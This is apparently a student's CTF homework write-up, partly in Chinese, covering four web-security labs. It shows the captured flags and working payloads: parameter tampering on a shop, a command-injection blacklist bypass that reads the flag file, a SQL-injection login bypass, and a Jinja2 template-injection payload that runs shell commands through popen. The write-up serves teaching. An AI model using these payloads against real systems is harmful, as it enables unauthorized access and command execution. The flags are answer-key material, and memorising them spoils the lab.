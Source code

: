```yaml
---
title: NTU CS 2023 HW4 Write Up
tags: [eductf, Web]

---
```


# NTU CS 2023 HW4 Write Up
## Lab-Cat Shop
Flag: `FLAG{omg_y0u_hack3d_th3_c4t_sh0p!}`
### 解題流程與思路
1. 這一題很簡單，只要觀察送出的封包就可以知道每一個品項都是按照順序的(可預期的號碼)，所以只要把品項改成我們要的就可以成功query，如下圖，原本FLAG的column反白無法點選
    ![圖片](https://hackmd.io/_uploads/SJ3bD8x_T.png)
    但因為送出的item number可預期，所以還是能夠正常query
    ![圖片](https://hackmd.io/_uploads/HJ6yDUe_a.png)
2. 接著看下一個packet就知道連我們的餘額以及支付金額都是裸奔的狀態，所以可以直接更改拿到flag
    ![圖片](https://hackmd.io/_uploads/Sko9wLldp.png)
    ![圖片](https://hackmd.io/_uploads/S1CovLldp.png)

## Lab-DNS Lookuper
Flag: FLAG{Y0U_$(Byp4ssed)\_th3_\`waf\`}
### 解題流程與思路
Use <font color="FF0000">**`$`** or **\`**</font> string to bypass blacklist
Payload: 
`'$(cat /fla*)'`
`'`cat /fl\*g\*`'`
## Lab-Log me in
Flag: `FLAG{b4by_sql_inj3cti0n}`
### 解題流程與思路
* Payload → `') or ('1'='1') -- #`
SELECT * FROM admin WHERE (username='') or ('1'='1') -- #') AND (password='MTIz')
## Lab-Jinja2 SSTI
Flag: `FLAG{ssti.__class__.__pwn__}`
### 解題流程與思路
#### Easy way
{% raw %}
payload: `{{[].__class__.__base__.__subclasses__()[132].__init__.__globals__['popen']("cat /th1s_15_fl4ggggggg").read()}}`
{% endraw %}
![](https://i.imgur.com/dRLbk0J.png)
